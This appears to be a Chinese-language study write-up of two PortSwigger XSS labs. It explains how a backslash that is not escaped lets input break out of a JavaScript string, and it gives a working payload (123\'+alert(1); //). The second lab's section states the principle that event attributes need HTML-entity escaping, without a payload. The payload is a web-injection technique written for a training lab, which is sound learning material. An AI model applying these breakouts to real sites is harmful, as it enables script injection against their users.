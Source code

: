 就解了


## [Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)
### 題目敘述
 This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function. 
### 題目解釋
沒有 Encode `\`

### 解答

先用最普通的 Payload 觀察

```
var searchTerms = '&lt;script&gt;alert(1)&lt;/script&gt;';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```

輸入後的東西會先被 HTML Entity Encode，然後再被 `encodeURIComponent(searchTerms)` URL Encode

發現單引號 `'` 會被 Escape 成 `\'`，但是 `\` 可以直接吃進去

所以 Payload

```
123\'+alert(1); //
```


## [Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped)
### 題目敘述
 This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the comment author name is clicked. 
### 題目解釋
- **HTML 的 event 裡面不認 string 的 escape \\**
- **如果需要 escape 的話需要用 HTML Entity**
